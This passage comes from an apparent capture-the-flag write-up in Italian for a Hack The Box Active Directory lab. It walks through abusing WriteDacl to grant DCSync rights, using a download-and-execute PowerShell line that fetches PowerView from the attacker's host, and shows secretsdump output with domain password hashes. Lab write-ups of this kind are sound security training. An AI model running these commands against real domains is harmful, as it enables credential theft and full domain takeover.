 ### 3.1 Privilege
#

Possiamo abusare di *WriteDacl* sull'oggetto dominio per concederci i diritti DCSync su HTB.LOCAL.

Per abusarne creeremo prima un nuovo utente, in modo da mantenere l'account corrente al sicuro, se mai ne avremo bisogno. Per creare un utente: 

`net user miku miku@123 /add /domain`

Ora lo aggiungiamo al gruppo "*Exchange Windows Permissions*":

`net group "Exchange Windows Permissions" /add miku`

Ora, con l'aiuto di [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) abuseremo di *WriteDacl*; lo carichiamo sulla macchina:

`IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16:8000/PowerView.ps1')`

Creeremo nuovamente un oggetto credenziale per la nostra password e per le nostre credenziali. Questa volta per l'utente che abbiamo creato

`$pass = convertto-securestring 'miku@123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ('HTB\miku', $pass)`

Ora eseguiamo il comando seguente per concederci i diritti *DCSync* sul nostro account:

`Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity miku -Rights DCSync`

Dopo che abbiamo i diritti, scaricheremo i "segreti" dalla macchina e li utilizzeremo per accedere come amministratore.

Per scaricarli utilizzeremo un altro strumento di impacket "secretsdump.py". Se viene eseguito correttamente, significa che i nostri diritti sono stati assegnati correttamente e i segreti verranno scaricati:

```shell
─$ secretsdump.py htb.local/miku:miku@123@10.10.10.161                                                            
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```